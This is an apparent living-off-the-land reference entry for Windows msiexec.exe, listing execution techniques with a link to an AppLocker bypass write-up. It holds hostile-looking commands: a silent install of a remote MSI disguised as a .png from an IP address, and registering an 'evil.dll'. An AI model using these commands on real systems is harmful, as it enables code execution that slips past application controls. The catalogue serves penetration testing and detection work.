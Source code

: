 ## Msiexec.exe
* Functions: Execute
```

msiexec /quiet /i cmd.msi
Installs the target .MSI file silently.

msiexec /q /i http://192.168.100.3/tmp/cmd.png
Installs the target remote & renamed .MSI file silently.

msiexec /y "C:\folder\evil.dll"
Calls DLLRegisterServer to register the target DLL.

msiexec /z "C:\folder\evil.dll"
Calls DLLRegisterServer to un-register the target DLL.
```
   
* Resources:   
  * https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/
  * https://twitter.com/PhilipTsukerman/status/992021361106268161
   
* Full path:   
  * c:\windows\system32\msiexec.exe
  * c:\windows\sysWOW64\msiexec.exe
   
* Notes: Thanks to ? - @netbiosX, PhilipTsukerman - @PhilipTsukerman  
   
